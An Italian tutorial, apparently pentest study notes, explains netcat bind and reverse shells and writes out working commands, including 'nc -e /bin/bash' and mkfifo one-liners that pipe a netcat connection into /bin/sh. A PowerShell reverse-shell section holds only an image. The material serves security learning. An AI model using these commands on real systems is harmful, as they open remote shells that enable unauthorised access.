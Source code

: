 In alcune versioni di netcat (inclusa la **`nc.exe`**versione Windows inclusa con Kali in **`/usr/share/windows-resources/binaries`**, e la versione usata in Kali stessa: **`netcat-traditional`**) c'è un'opzione **`-e`**che consente di eseguire un processo sulla connessione. Ad esempio, come listener: 

- **nc -lvnp <PORT> -e /bin/bash**
    - Otterremo una **bind bind** sulla destinazione.
- **nc <LOCAL-IP> <PORT> -e /bin/bash**
    - Otterremo una **reverse shell**

Su Windows questa tecnica funziona. Su Linux ,  useremmo invece questo codice per creare un listener per una bind shell:

- **mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f**

> Il comando crea prima una **pipe** denominata in **/tmp/f**. Quindi **avvia** un **listener netcat** e collega l'input del listener all'output della pipe denominata. L'output del listener netcat (vale a dire **i comandi che inviamo**) viene quindi convogliato direttamente in sh, inviando il flusso di output stderr in stdout e inviando stdout stesso nell'input della pipe denominata, completando così il cerchio.
>

![image](https://github.com/user-attachments/assets/d6aa68a2-5699-4d0b-879d-46e2330b3784)

Un comando molto simile può essere utilizzato per inviare una shell inversa netcat:

- mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Questo comando è praticamente identico al precedente, solo che utilizza la sintassi netcat connect anziché la sintassi netcat listen.

![image](https://github.com/user-attachments/assets/af84cd99-5a32-45f8-aa07-039e22aa5616)

# one-liner PSH reverse shell

Non caricabile 

![image](https://github.com/user-attachments/assets/837c1dea-b6f5-467f-97c8-82e5db34e6ef)



